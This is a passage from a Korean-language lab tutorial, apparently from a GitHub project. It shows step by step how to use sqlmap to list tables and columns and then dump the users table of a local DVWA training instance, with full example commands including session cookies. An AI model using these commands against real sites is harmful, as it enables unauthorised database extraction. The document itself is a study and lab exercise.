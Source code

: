 기본 명령어 형식 : sqlmap -u URL -p 파라미터명 (선택사항 --cookie=쿠키값) --dbs
사용예 : sqlmap -u "http://192.168.100.131/dvwa/vulnerabilities/sqli/?id=koromoon&Submit=Submit#" -p id --cookie="security=low; PHPSESSID=300fgn00aunr01ejf32u9io0u6; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" --dbs


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/86525517-3ff0-4aa5-a50d-3a32a2a10c6a)

< 명령어 입력 >


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/effdaddf-a27e-4c1c-97b9-b80a136f82d0)

< 결과값 출력 >



( 3 ) 지정된 DB 에서 테이블 정보 알아내기

기본 명령어 형식 : sqlmap -u URL -p 파라미터명 (선택사항 --cookie=쿠키값) -D 데이터베이스명 --tables
사용예 : sqlmap -u "http://192.168.100.131/dvwa/vulnerabilities/sqli/?id=koromoon&Submit=Submit#" -p id --cookie="security=low; PHPSESSID=300fgn00aunr01ejf32u9io0u6; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa --tables


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/57994ce2-2243-4a59-a17b-02b759fde467)
< 명령어 입력 >


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/c4489f30-74a1-4a8f-b05f-f7e705abd9be)
< 결과값 출력 >



( 4 ) 지정된 DB 에 속한 테이블에서 컬럼 정보 알아내기

기본 명령어 형식 : sqlmap -u URL -p 파라미터명 (선택사항 --cookie=쿠키값) -D 데이터베이스명 -T 테이블명 --columns
사용예 : sqlmap -u "http://192.168.100.131/dvwa/vulnerabilities/sqli/?id=koromoon&Submit=Submit#" -p id --cookie="security=low; PHPSESSID=300fgn00aunr01ejf32u9io0u6; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --columns


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/f517bf72-6f72-45f1-b82f-71066f23fd97)

< 명령어 입력 >


![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/165739282/ed810065-4db1-472f-9030-c0523572b22f)

< 결과값 출력 >



( 5 ) 지정된 DB 에 속한 테이블의 전체 데이터 덤프하기

기본 명령어 형식 : sqlmap -u URL -p 파라미터명 (선택사항 --cookie=쿠키값) -D 데이터베이스명 -T 테이블명 --dump
사용예 : sqlmap -u "http://192.168.100.131/dvwa/vulnerabilities/sqli/?id=koromoon&Submit=Submit#" -p id --cookie="security=low; PHPSESSID=300fgn00aunr01ejf32u9io0u6; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada" -D dvwa -T users --dump

명령어 입력 후 도중에 Y 나 Enter 눌러서 진행함.​
덤프된 파일은 sqlmal 툴 -> output 폴더 -> IP or URL 폴더 -> dump 폴더 안에 생성됨.
(ex. /home/kali/.sqlmap/output/192.168.100.131/dump)
